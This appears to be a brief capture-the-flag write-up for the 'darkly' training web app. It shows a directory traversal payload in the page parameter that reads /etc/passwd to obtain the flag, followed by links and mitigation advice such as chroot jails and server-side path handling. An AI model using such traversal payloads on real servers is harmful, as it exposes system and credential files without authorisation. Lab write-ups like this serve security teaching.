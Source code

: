 # Exploit
We know that darkly runs on a debian system, so we can try reaching for the /etc/passwd file via the URI's page parameter:  

```
http://192.168.0.160/?page=/../../../../../../../etc/passwd
```
This allows us to get the flag.

# Mitigating the risk
You'll find more information on directory traversal and local file inclusions [here](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601), [here](https://owasp.org/www-community/attacks/Path_Traversal) and [here](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include.html).

To mitigate this risk, one could use chroot jails, or exclude certain characters (`.` or `..` for instance) from filepaths.  
More to the point, such filepaths should not be determined client-side but server-side.
